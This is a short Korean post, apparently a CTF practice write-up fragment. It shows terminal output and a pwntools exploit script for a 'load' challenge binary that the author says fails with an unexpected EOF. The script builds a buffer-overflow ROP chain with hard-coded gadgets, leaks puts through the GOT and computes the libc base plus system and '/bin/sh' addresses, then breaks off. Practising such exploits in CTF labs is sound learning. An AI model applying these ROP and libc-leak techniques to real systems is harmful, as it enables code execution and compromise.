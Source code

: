 ```css
m444ndu@ubuntu:~/round1/load$ ./test
AAAA
fd : 1
fd : 2
leave fd 0, 1, 2
asdfsadfasdf
asdfsadfasdf

CCCC
```

위의 코드로 실험을 해봤을 때, 정상적으로 입력이 가능했으나 익스로 하려니 입력에서 이상하게 EOF가 터지는 군여 ㅠㅠ



# 망한 익스코드

```python
#! /usr/bin/python
from pwn import *

r = process('./load')
context.log_level = 'debug'
gdb.attach(r,'b* 0x000040089D') #0x0400 8a8 966


payload1 = '/proc/self/fd/0' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += './flag' + '\x00'
r.sendlineafter('Input file name: ',payload1)

r.sendlineafter('Input offset: ','0')
r.sendlineafter('Input size: ','400')

string = 0x0601040

payload2 = 'A'*0x38 # dummy
## open('/proc/self/fd/0',0,)
for i in range(0,3):
	payload2 += p64(0x00400a73) #0x0000000000400a73 : pop rdi ; ret 
	payload2 += p64(string + 0x10 + 0x09*i)
	payload2 += p64(0x0400a71) #0x0400a71 : pop rsi ; pop r15 ; ret
	payload2 += p64(0x02)
	payload2 += p64(0x00)
	payload2 += p64(0x0400710) # open@plt  rdx is very biggg!

payload2 += p64(0x0000000000400a73) # 0x0000000000400a73 : pop rdi ; ret
payload2 += p64(0x000000600FC8 )# puts@got
payload2 += p64(0x000004006C0) # puts@plt
payload2 += p64(0x00000000400816) # main
r.sendline(payload2)

r.recvuntil('Load file complete!\n')
leak = u64((r.recv(6)).ljust(8,'\x00'))
libc_base = leak - 1012304
success('libc_base = '+hex(libc_base))

system_addr = libc_base + 283536
binsh_addr = libc_base + 1625431
log.info('system_addr = '+hex(system_addr))
log.info('binsh_addr ='+hex(binsh_addr))

```